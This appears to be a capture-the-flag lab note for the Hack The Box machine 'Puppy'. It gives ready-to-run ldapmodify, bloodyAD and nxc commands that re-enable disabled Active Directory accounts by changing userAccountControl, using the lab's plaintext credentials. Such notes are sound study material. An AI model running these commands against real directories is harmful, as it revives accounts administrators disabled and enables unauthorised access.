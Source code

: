 # Enable `STATUS_ACCOUNT_DISABLED` users.

## ldapmodify
1. **Find the DN of the user** (Distinguished Name):
```
ldapsearch -x -H ldap://10.10.11.70 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -b "DC=PUPPY,DC=HTB" "(sAMAccountName=jamie)"

dn: CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB
```
2. **Create an LDIF file** (e.g., `enable.ldif`):
```sh
dn: CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512
#512 → enabled account , 514 → disabled account
```
3. **Apply the LDIF using `ldapmodify`**:
```sh
ldapmodify -x -H ldap://10.10.11.70 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -f enable.ldif
```


## bloodyAD 
```sh
bloodyAD -u 'ant.edwards' -p 'Antman2025!' -d 'PUPPY.HTB' --dc-ip 10.10.11.70 remove uac 'adam.silver' -f ACCOUNTDISABLE
```

## nxc
```sh
nxc ldap 10.10.11.70 -d PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' --modify "CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB" userAccountControl 512
```

---
